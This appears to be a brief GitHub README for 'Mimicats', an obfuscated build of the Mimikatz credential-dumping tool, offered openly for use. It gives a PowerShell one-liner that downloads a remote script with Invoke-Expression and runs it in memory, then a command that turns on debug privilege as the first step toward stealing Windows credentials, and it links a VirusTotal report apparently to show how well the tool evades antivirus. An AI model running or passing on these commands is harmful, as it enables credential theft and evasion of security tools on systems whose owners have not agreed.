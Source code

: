 # Mimicats
**Mimikatz obfuscation**

Command Windows Powershell:
```
Invoke-Expression (New-Object Net.Webclient).downloadstring('https://raw.githubusercontent.com/Moon1705/mimicats/master/Mimicats.ps1')
Invoke-Cats -Command '"privilege::debug"'
```
Report [VirusTotal](https://www.virustotal.com/gui/file/65505a6fa6b1e9921d2270821370c9b6156dce36c1a6f1f72dd7aec3e6c5cb46/detection)
